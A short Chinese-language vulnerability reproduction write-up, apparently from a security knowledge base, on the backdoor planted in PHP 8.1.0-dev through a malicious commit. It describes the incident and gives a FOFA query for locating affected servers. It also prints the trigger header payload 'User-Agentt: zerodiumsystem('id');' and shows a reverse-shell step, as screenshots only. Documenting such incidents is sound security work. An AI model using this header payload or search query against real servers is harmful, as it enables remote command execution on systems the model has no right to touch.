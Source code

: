  # PHP zerodium后门漏洞

## 漏洞描述

PHP开发工程师Jake Birchall在对其中一个恶意COMMIT的分析过程中发现，在代码中注入的后门是来自一个PHP代码被劫持的网站上，并且采用了远程代码执行的操作，并且攻击者盗用了PHP开发人员的名义来提交此COMMIT。

目前为止PHP官方并未就该事件进行更多披露，表示此次服务器被黑的具体细节仍在调查当中。由于此事件的影响，PHP的官方代码库已经被维护人员迁移至GitHub平台，之后的相关代码更新、修改将会都在GitHub上进行。

## 漏洞影响

<a-checkbox checked>PHP 8.1.0-dev</a-checkbox></br>

## FOFA

<a-checkbox checked>"PHP/8.1.0-dev"</a-checkbox></br>

## 漏洞复现

后门为添加请求头(是 User-Agentt 不是 User-Agent)

```plain
User-Agentt: zerodiumsystem('id');
```



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313092832416.png)



反弹shell

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-7134912.png)